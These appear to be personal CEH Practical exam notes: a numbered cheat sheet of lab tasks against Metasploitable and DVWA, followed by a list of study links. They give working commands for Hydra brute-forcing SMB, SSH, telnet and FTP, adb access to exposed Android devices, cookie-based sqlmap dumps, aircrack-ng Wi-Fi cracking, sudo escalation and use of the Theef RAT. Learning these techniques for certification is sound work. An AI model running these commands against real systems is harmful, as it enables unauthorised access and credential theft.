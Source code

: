 # Notes
Ever in need make use of it

# CEH Notes

When login sudo arp-scan -local or netdiscover -i 10.10.1.0 or nmap -sn ip/24

1. To find FQDN - Do Nmap and Check results or Check for This PC Properties

Ex- nmap -sC -sV -T4 -A -vv 192.168.205.4

OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-07-06T11:15:10-04:00

2. To check for live hosts - Scan using Nmap
Ex- nmap -T4 -A 192.168.x.x/2x

OR 

nmap -T4 -A -p 80,443 192.168.x.x/2x

3. To enumerate SMB - Check for 139, 445 open ports in IPs and Brute force them using Hydra and connect using SMB Client and share/retrieve files.
Ex- nmap -T4 -A -p 139,445 192.168.x.x/2x
OR
nmap -p 139,445 -sV 192.168.x.x/2x

Brute force SMB with hydra
hydra -l USER_NAME -P password_file TARGET_IP smb 
OR
hydra -L Username wordlist Path -P Password wordlist Path IP smb

smbclient //target_ip/ -U USER_NAME 
get file.txt
OR 
smbmap -u USER_NAME -p 'PASSWORD' -H TARGET_IP --download 'C$\file.txt'

If the file is encrypted then Decrypt using BCTextEncoder or SNOW

i.e. snow.exe -C -p “password” file.txt

4. For Mobile IP/Android IP - Check for 5555 Open port in IPs and connect using adb.
Ex- nmap -sV -p 5555 192.168.x.x/2x
adb connect TARGET_IP:5555
adb shell
check for Scan folder - ls; cd sdcard/Scan
adb pull /sdcard/Scan attacker/home -If not able to pull use sudo -i
cd Scan; ls
To install Entropy - apt install ent
ent evil.elf
ent evil2.elf
ent evil3.elf
sha384sum evil.elf
Use Hashcalc

5. To check for Severity score - Use Nmap or Open VAS
Ex- nmap -Pn --script vuln 192.168.xx.xx
OR 
In Open VAS check for EOL of Web dev lang platform vuln CVE IDs

Google them for their CVSS Scores


6. To find secret.txt file/flag in any network - Do nmap -T4 -A 192.168.x.x/2x

OR 

nmap -T4 -A -p 80,443 192.168.x.x/2x

Look out for telnet or ssh and bruteforce it - Since it's a remote login
hydra -L username_file -P password_file TARGET_IP telnet
or
hydra -L username_file -P password_file TARGET_IP ssh

Login to the identified service and search for the file

7. To Check/Decrypt for any sensitive data in a image - Use Openstego
Password will be provided

8. To find flag in FTP - Enumerate for Open ports having port number 21
If port 21 is open then try anonymous login else Brute force it using Hydra
hydra -l uname -P Password wordlist path ftp://IP
ftp IP
ftp>ls
ftp>find . -name secret.txt
or locate secret.txt

9. To perform vertical privilege escalation - Use sudo -i
nmap -sV -A -p 22 IP/24
ssh unmae@IP
pwd
sudo -i
whoami - root ?
cd /
find . -name root.txt or locate root.txt


10. To check for Entropy point of an ELF/exe file - Use DIE Tool or PEid Tool or PeVIEW Tool

Run DIE exe file
Upload Malicious file
Check for Entropy address in advanced

11. To Check for DOS/DDOS - Use Wireshark to obtain IP
Ex- Open Pcap file and search using display filter
i.e. tcp.flags.syn == 1 and tcp.flags.ack == 0

Else Check Statistics > IPv4 Address > Src & Dest > Apply filter

12. To find Login Creds using SQL MAP -

Ex- Login and capture cookie using document.cookie
Try sqlmap -u "URL" --cookie="value;" --dbs = Dumps Databases
sqlmap -u "URL" --cookie="value;" -D dbase --tables = Dumps Tables
sqlmap -u "URL" -cookie="value;" -D dbase -T tablename --dump = Dumps Tabular data of other login creds


13. Can do SQL Injection using copying Burp Request into a text file


14. To find flags in any URL - Can use dirsearch, gobuster for php, html, txt files
For Ex-
dirsearch -e php,html,js,txt -u https://example.com -> for extension search
OR
dirsearch -e php,html,js,txt -u https://example.com -w /usr/share/wordlists/dirb/common.txt -> for wordlist search


15. Use JSQL Tool to dump data and find Flags in it.

16. Login to DVWA using Creds and check for the flag.txt file and Decrypt it using Crackstation or Hashes.com

17. For IOT Publish message capture - Open Pcap and search for MQTT in display filter
Now Check for the Message value or Message Length

18. TO Crack WiFi Creds - Open Cap file
aircrack-ng WEPcrack-01.cap(Path)
KEY FOUND! [________]
aircrack-ng WPA2crack-01.cap(Path) -w password.txt
KEY FOUND! [________]

Else
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [Mac address] pass*.cap
-b = BSSID

19. Use Theef RAT to retieve Secret.txt code from Victim machine.

20. Decrypt Password hash using hashes.com or Crackstation or JohnTheRipper
Obtain the plain password and Decrypt the Veracrypt volume
Then access the flag.txt from Veracrypt volume and submit
 


________________________________________________________________________________________________________________________________________


Resources-

1. https://chirag-singla.notion.site/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052
2. https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master
3. https://github.com/TheCyberpunker/CEH-Practical-Notes/blob/main/8%20-%20CEH-Notes.md
4. https://github.com/System-CTL/CEH_CHEAT_SHEET
5. https://ceh-practical.cavementech.com/
6. https://github.com/hunterxxx/CEH-v12-Practical
7. https://github.com/cmuppin/CEH
8. https://github.com/Samsar4/Ethical-Hacking-Labs
9. https://github.com/scriptkkiddie/CEH-Practical-Resources-Learning-Tutorials-Certified-Ethical-Hacker?tab=readme-ov-file
10. https://github.com/xaferima/Certified-Ethical-Hacking-Practical-Tools/tree/main/Labs-pdf
11. https://github.com/dhabaleshwar/CEHPractical/tree/main
12. https://cheat.sh/
13. https://hashes.com/en/decrypt/hash
14. https://emn178.github.io/online-tools/

